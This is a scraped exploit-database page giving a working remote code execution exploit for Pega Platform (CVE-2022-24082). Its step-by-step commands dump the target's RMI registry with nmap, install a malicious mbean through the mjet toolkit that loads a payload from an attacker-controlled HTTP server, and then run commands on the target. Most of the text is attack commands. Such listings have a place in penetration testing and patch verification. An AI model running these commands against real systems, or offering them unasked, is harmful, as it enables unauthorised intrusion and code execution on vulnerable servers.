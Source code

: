 ```yaml
---
title: Pega Platform 8.7.3 Remote Code Execution Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38047&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-25
fetch_date: 2025-10-03T20:44:32.261541
---
```


# Pega Platform 8.7.3 Remote Code Execution Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Pega Platform 8.7.3 Remote Code Execution Vulnerability CVE-2022-24082

2022-10-24 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38047
# Exploit Title: Pega Platform 8.1.0 (and higher) Remote Code Execution
# Google Dork: N/A
# Date: 20 Oct 2022
# Exploit Author: Marcin Wolak (using MOGWAI LABS JMX Exploitation Toolkit)
# Vendor Homepage: www.pega.com
# Software Link: Not Available
# Version: 8.1.0 on-premise and higher, up to 8.7.3
# Tested on: Red Hat Enterprise 7
# CVE : CVE-2022-24082

;Dumping RMI registry:
nmap -sT -sV --script rmi-dumpregistry -p 9999 <IP Address>

;Extracting dynamic TCP port number from the dump (in form of @127.0.0.1:<PORT>)
;Verifying that the <PORT> is indeed open (it gives 127.0.0.1 in the RMI dump, but actually listens on the network as well):
nmap -sT -sV -p <PORT> <IP Address>

;Exploitation requires:
;- JVM
;- MOGWAI LABS JMX Exploitation Toolkit (https://github.com/mogwailabs/mjet)
;- jython
;Installing mbean for remote code execution
java -jar jython-standalone-2.7.2.jar mjet.py --localhost_bypass <PORT> <IP Address> 9999 install random_password http://<Local IP to Serve Payload over HTTP>:6666 6666

;Execution of commands id & ifconfig
java -jar jython-standalone-2.7.2.jar mjet.py --localhost_bypass <PORT> <IP Address> 9999 command random_password "id;ifconfig"

;More details: https://medium.com/@Marcin-Wolak/cve-2022-24082-rce-in-the-pega-platform-discovery-remediation-technical-details-long-live-69efb5437316
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)